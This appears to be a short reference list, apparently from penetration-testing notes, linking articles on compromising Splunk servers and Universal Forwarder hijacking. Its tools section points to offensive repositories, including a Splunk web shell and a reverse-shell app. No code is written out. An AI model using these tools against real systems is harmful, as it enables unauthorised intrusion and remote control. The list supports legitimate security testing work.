* https://averagesecurityguy.github.io/pentest/research/2012/04/12/pwning-a-splunk-server/
* https://www.hackingarticles.in/penetration-testing-on-splunk/
* https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/
* https://medium.com/@airman604/splunk-universal-forwarder-hijacking-5899c3e0e6b2
* https://www.youtube.com/watch?v=EPehfD7r79s
* https://conf.splunk.com/session/2014/conf2014_DuaneWaddleGeorgeStarcher_Self_UsingTrack.pdf

### Tools

* https://github.com/cnotin/SplunkWhisperer2
* https://github.com/tevora-threat/splunk_pentest_app
* https://github.com/Dionach/Splunk-Web-Shell
* https://github.com/0xjpuff/reverse_shell_splunk
* https://github.com/FooBallZ/SplunkPWNScripts
* https://github.com/airman604/splunk_whisperer
* https://github.com/f8al/TA-Shell